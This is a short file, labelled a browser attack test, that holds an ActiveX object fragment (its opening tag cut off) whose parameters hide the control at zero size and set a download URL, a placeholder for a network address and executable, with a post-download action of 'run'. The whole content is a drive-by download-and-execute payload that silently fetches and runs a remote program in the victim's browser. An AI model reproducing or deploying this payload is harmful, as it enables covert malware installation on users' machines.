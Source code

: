 # Browser attack test file.
# author :  weibo@flagellantX
CLASSID="CLSID:c1b7e532-3ecb-4e9e-bb3a-2951ffe67c61" CODEBASE="Playing.ISO#Version=1,0,0,1"><PARAM NAME="propProgressbackground" VALUE="#bccee8"><PARAM NAME="propTextbackground" VALUE="#f7f8fc"><PARAM NAME="propBarColor" VALUE="#df0203"><PARAM NAME="propTextColor" VALUE="#000000"><PARAM NAME="propWidth" VALUE="0"><PARAM NAME="propHeight" VALUE="0"><PARAM NAME="propDownloadUrl" VALUE="http://网络地址/可执行文件"><PARAM NAME="propPostdownloadAction" VALUE="run"><PARAM NAME="propInstallCompleteUrl" VALUE=""><PARAM NAME="propbrowserRedirectUrl" VALUE=""><PARAM NAME="propVerbose" VALUE="0"><PARAM NAME="propInterrupt" VALUE="0">
